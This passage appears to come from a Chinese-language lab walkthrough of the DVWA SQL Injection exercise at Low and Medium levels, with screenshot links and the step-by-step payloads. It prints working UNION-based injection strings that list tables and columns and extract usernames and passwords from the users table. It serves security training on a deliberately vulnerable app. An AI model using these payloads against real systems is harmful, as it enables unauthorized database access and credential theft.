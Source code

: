 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20191125094648360.png)
####  2、 SQL Injection
（1）Low

判断：
```
id=1        有回显
id=1'       报错
id=1' #     有回显与id=1一致，判断单引号闭合
```

用order by判断列数
```
id=1' order by 1 #
id=1' order by 2 #
id=1' order by 3 #
·····
id=1' order by n #

直到报错为止，最后一个页面正确回显的数，即为列数
```

表名：
```
id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()) #
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190223144516903.png)

列名：
```
id=-1'  union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users') #
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190223153418613.png)
值：
```
id=-1' union select (select group_concat(User) from users),(select group_concat(Password) from users) #
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/2019022314461087.png)

（2）Medium

- 为POST型注入，要用BurpSuit抓包，Post传入sql语句
- 虽用了mysqli_real_escape_string()函数来进行过滤，但是sql语句直接使用了\$id，没有闭合，为数字型注入，id里面的sql语句可以直接执行。

注入的流程与low一致：

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190223151020100.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190223151034291.png)

知道了列数之后就可以用union联合查询当前的用户名、数据库名的信息，例如：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190223151112691.png)
注入出当前数据库所有的表名
```
-1 union select 1,table_name from information_schema.tables where table_schema=database() 
```
    